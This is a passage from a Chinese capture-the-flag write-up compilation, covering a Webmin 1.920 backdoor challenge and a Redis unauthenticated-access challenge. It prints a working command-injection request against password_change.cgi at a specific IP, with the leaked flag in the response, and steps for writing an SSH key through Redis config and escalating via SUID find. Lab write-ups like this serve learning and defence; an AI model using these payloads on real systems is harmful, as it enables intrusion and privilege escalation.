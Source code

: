 先以无害命令 echo WPMARKER7 验证响应中出现该 marker，然后读取题目要求的 flag。成功命令：

\begin{verbatim}
curl.exe -sS -i --max-time 12 `
  -H 'Cookie: redirect=1; testing=1' `
  -H 'Referer: http://43.192.167.19:10000/' `
  --data-urlencode 'user=root' --data-urlencode 'pam=' `
  --data-urlencode 'expired=cat /root/flag.txt' `
  --data-urlencode 'old=cat /root/flag.txt' `
  --data-urlencode 'new1=WPMARKER8' --data-urlencode 'new2=WPMARKER8' `
  'http://43.192.167.19:10000/password_change.cgi'
\end{verbatim}

响应原文摘录：

\begin{verbatim}
HTTP/1.0 200 Document follows
Server: MiniServ/1.920
<center><h3>Failed to change password : The current password is incorrectflag{e6d4db165611d5ec9be0f89c2a95fc8b}
</h3></center>
CURL_EXIT=0
\end{verbatim}

错误密码文字仍显示，但紧跟着的 flag 是服务端命令输出。命令/完整响应保存在 记录/WP补全-资料普查记录.txt。漏洞字段与版本条件可对照 \href{https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/linux/http/webmin_backdoor.rb}{Rapid7 Webmin backdoor module}。

\section{Redis未授权导致远程代码执行（ID \#442）}\label{redisux672aux6388ux6743ux5bfcux81f4ux8fdcux7a0bux4ee3ux7801ux6267ux884cid-442}

\textbf{题目信息：} 玄机 ID \#442；类型 渗透；难度 简单。

\begin{quote}
\textbf{零基础知识点：} Redis 未授权意味着网络可达且无需认证就能改配置。把数据库目录和文件名组合成写文件能力后，是否能提权还取决于服务账户权限与 SUID 程序。
\end{quote}

来源是玄机平台用户``琅琊''于 2026-06-16 发布的公开 Writeup，不是步骤以 \texttt{} 表示。

1.连接 6379 检查未授权访问：redis-cli -h -p 6379 PING 返回 PONG；INFO SERVER 查看版本；CONFIG GET dir 得到 /var/lib/redis。 2.本地生成 SSH keypair，把公钥以空行包裹后暂存到 Redis 键中，确保 Redis 保存时 authorized\_keys 的行格式有效。 3.将 Redis dir 指向 /var/lib/redis/.ssh，dbfilename 设为 authorized\_keys，SAVE 将键内容序列化到 SSH 授权文件。 4.使用本地私钥 SSH 为 redis 用户登录。通过 find 检查 SUID 程序，公开 Writeup 中的环境存在可用的 SUID find。 5.借 find -exec 调用 cat /root/flag.txt，读取 root flag。


